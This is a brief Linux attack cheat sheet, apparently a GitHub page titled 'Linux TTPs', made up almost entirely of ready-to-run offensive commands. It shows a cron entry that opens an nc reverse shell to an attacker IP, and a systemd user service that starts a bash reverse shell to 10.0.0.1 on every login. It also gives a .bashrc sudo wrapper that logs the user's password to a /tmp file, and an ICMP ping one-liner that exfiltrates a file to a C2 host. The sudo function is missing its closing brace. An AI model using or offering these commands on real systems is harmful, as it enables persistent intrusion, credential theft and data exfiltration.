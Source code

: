 # Linux TTPs:

## One Liner to Add Persistence on a Box via Cron:

```
echo "* * * * * /bin/nc <attacker IP> 1234 -e /bin/bash" > cron && crontab cron
```

On the attack platform: ```nc -lvp 1234```

## Systemd User Level Persistence:

Place a service file in ```~/.config/systemd/user/```

```
vim ~/.config/systemd/user/persistence.service
```

Sample file:

```
[Unit]
Description=Reverse shell[Service]
ExecStart=/usr/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.1/9999 0>&1'
Restart=always
RestartSec=60[Install]
WantedBy=default.target
```

Enable service and start service:

```
systemctl --user enable persistence.service
systemctl --user start persistence.service
```

On the next user login systemd will happily start a reverse shell.

## Backdooring Sudo:

Add to ```.bashrc```

```bash
function sudo() {
    realsudo="$(which sudo)"
    read -s -p "[sudo] password for $USER: " inputPasswd
    printf "\n"; printf '%s\n' "$USER : $inputPasswd\n" >> /tmp/log13999292.log
    $realsudo -S <<< "$inputPasswd" -u root bash -c "exit" > /dev/null 2>&1
    $realsudo "${@:1}"
```

## ICMP Tunneling One Liner:

```
xxd -p -c 4 /path/exfil_file | while read line; do ping -c 1 -p $line <C2 IP>; done
```
